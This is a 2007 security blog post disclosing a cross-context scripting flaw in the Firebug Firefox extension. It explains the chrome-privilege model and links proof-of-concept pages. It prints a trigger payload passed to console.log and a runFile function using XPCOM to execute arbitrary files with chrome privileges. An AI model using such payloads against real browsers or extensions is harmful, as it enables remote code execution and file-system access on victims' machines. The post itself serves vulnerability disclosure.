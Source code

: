 ```yaml
---
title: Firebug Goes Evil
author: pdp
date: Wed, 04 Apr 2007 19:12:38 GMT
template: post.jade
---
```


Firebug is a very powerful JavaScript debugger for Firefox. "I love it!" It has tones of useful features like a dynamic console, DOM tree explorer, CSS viewer/editor, script explorer and my favorite, a network monitor where I can see all Flash, XMLHttpRequest, JS and Image requests.

Firebug is mainly used by web developers to find bugs in their code but it can also be used from security guys like me to find and explore various client-side and server-side vulnerabilities. Firebug is my best buddy. I even partially based [Technika](/blog/technika), the bookmarklets powertool, on the top of Firebug.

Unfortunately, Firebug suffers from rather simple but quite dangerous vulnerability. I have [discussed](/blog/cross-context-scripting-with-sage/) similar issues before. In general, browsers try their best to prevent common vulnerabilities from crippling into their code. However, that's not the case with browser extensions. Very often, browser extension authors do not consider the security aspects of their work, i.e. extensions are not carefully inspected for security vulnerabilities. Because of this, incidents occur. IMHO, the next wave of browser attacks will target exactly this.

In this post I am going to disclose a vulnerability for Firebug which can be used by attackers to gain control of every system where the Firebug extension is installed. Of course, the user needs to visit a malicious page first, which means that the attack surface is greatly reduced. However, given the fact that the largest user base of the Firefox browser are geeks and Firebug is a top extension at [http://addons.mozilla.org](http://addons.mozilla.org), attackers can cause quite a lot of trouble.

The vulnerability is of a type Cross-zone or Cross-context scripting, where a script from a web pages is injected inside the zone of the browser, also know as the chrome, or in the zone of the file: protocol. In both cases the result is quite devastating, although the second is a bit less critical then the first. Remote scripts in the browser are restricted by a sandbox. This means that everything that is prefixed with http: or https: is secure. Browser extensions make use of the chrome: protocol. This protocol is not restricted at all and everything is allowed. In that respect, browser extensions are trusted. However if a remote script, tricks the browser into executing JavaScript expressions on chrome: then this script can take control of the entire chrome and also the underplaying operating system because then command execution and read/write file access operations are allowed.

In order to cause Cross-zone scripting in Firebug you need to do the following:

```javascript
console.log({'<script>alert("bing!")</script>':'exploit'})
```

If you put this JavaScript expression into a page and open it with the browser while Firebug is on, you will be prompted with an alert box. This is not very interesting but there is a lot more you can do then that. For example, attackers can easily inject the following function into the browser chrome:

```javascript
function runFile(f) {
        var file = Components.classes["@mozilla.org/file/local;1"]
                .createInstance(Components.interfaces.nsILocalFile);

        file.initWithPath(f);

        var process = Components.classes["@mozilla.org/process/util;1"]
                .createInstance(Components.interfaces.nsIProcess);

        process.init(file);

        var argv = Array.prototype.slice.call(arguments, 1);

        process.run(true, argv, argv.length);
}
```

The function `runFile` allows execution of files. With the function declaration in the browser chrome, attackers can call `console.log` a few more times to spawn any file they want or even silently install browser extensions, not to mention that they will be able to read and write the file system too. The possibilities for evilness are endless.

There is a catch though. The Cross-context scripting vector is very tiny. In order to exploit the vulnerability, I needed to go through some extreme things like dynamically composing the malicious payload in a string then evaluating the string content inside the chrome. I wrote two ([1](/files/2007/04/firebug-poc.htm), [2](/files/2007/04/firebug-poc2.htm)) Proof of Concept exploits that you can try out.

_It is highly recommended that you disable Firebug until this issue is fixed which I have no doubt that it will be quite soon._
